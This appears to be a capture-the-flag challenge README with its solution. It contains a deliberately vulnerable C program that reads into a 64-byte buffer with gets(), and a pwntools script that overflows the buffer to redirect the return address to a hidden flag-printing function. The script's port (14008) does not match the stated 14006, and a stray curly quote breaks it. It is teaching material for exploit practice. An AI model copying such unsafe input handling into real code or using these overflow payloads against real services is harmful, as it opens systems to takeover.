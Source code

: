 # Secret Function

Difficulty Level: Easy

Got one of these pointers that point. Point it in the right direction

Connect via `nc challenge.ctf-fun.xyz 14006`

PS: Challenges in this category require a linux environment read [here](https://docs.google.com/document/d/13RjL_RWibA9xYOKvSCXpTGG0D2ZYa3kDzprGNa8ypeA/edit?usp=sharing) for a guide to installing a linux VM

### Hints

- Use `objdump -t ./secretfunction` to show the memory location of the function
you can filter the results by piping it to `grep`
- Point return address to the win function



## Deployment

```bash
cd service
sudo ./secretfunction.sh &
```

## Solution
Looking at the source code we see there's a function `secret` that can't be called normally. We need to overwrite the return address to access that function.
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

#define FLAGSIZE 64

char flag[FLAGSIZE];

void secret(){
	FILE *f = fopen("flag.txt","r");
	if (f == NULL) {
		printf("Flag File is Missing.\n");
		exit(0);
	}

	fgets(flag,FLAGSIZE,f);
	printf("%s\n", flag);
}


void vulnerable() {
	char buf[64] = {0x00};
	
	gets(buf);
	puts("Maybe you will find it next time");
	return;	
}

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);
	puts("Hidden in me is a function that leads you to the flag, can you find it?");
	vulnerable();
}
```

Find offset (76) using `gdb` then find location of secret function (0x080491b2) using `objdump`

```python
from pwn import *
 
def main():
    #io = process("./secretfunction")
    io = remote("challenge.ctf-fun.xyz", 14008”)
    secret = 0x080491b2
    payload = b"A" * 76 + p32(secret)
    io.sendline(payload)
    io.interactive()
if __name__ == '__main__':
    main()

```

### Flag
19C4{1m_h1dd3n_in_s3cret}